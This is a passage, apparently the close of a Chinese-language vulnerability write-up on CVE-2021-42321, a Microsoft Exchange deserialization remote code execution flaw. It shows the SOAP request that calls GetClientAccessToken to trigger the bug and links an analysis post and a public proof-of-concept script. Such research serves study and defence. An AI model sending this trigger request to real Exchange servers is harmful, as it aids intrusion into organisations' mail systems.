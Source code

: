 最后使用`GetClientAccessToken`来触发漏洞
```
<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
   <soap:Header>
      <t:RequestServerVersion Version="Exchange2013" />
   </soap:Header>
   <soap:Body >
      <m:GetClientAccessToken>
         <m:TokenRequests>
            <t:TokenRequest>
               <t:Id>aaa</t:Id>
               <t:TokenType>CallerIdentity</t:TokenType>
            </t:TokenRequest>
         </m:TokenRequests>
      </m:GetClientAccessToken>
   </soap:Body>
</soap:Envelope>
```


## 参考链接

[https://peterjson.medium.com/some-notes-about-microsoft-exchange-deserialization-rce-cve-2021-42321-110d04e8852](https://peterjson.medium.com/some-notes-about-microsoft-exchange-deserialization-rce-cve-2021-42321-110d04e8852)


[https://github.com/DarkSprings/CVE-2021-42321/blob/main/CVE-2021-42321_poc.py](https://github.com/DarkSprings/CVE-2021-42321/blob/main/CVE-2021-42321_poc.py)